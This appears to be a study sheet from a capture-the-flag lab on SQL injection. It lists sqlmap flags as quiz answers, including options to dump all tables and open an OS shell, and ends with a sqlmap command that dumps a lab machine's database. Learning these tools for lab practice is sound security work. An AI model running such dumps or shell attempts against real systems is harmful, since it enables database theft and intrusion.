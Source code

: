 # Intro
 
SQL injection is the art of modifying a SQL query so you can get access to the target's database. This technique is often used to get user's data such as passwords, emails etc. SQL injection is one of the most common web vulnerabilities, and as such, it is highly worth checking for

#SqlMap 


- [ ] How do you specify which url to check?

		-u
- [ ] What about which google dork to use?

		-g
- [ ] How do you select(lol) which parameter to use?(Example: in the url http://ex.com?test=1 the parameter would be test.)

		-p
- [ ] What flag sets which database is in the target host's backend?(Example: If the flag is set to mysql then sqlmap will only test mysql injections).
		--dbms

- [ ] How do you select the level of depth sqlmap should use(Higher = more accurate and more tests in general).

		--level
- [ ] How do you dump the table entries of the database?

		--dump

- [ ] Which flag sets which db to enumerate?

		-D
- [ ] Which flag sets which table to enumerate?

		-T
- [ ] Which flag sets which column to enumerate?


		-C
- [ ] How do you ask sqlmap to try to get an interactive os-shell?
		
		--os-shell

- [ ] What flag dumps all data from every table

		--dump-all

#Vulnerable Web Application 
	sqlmap -u http://10.10.124.150/ --forms --dump 
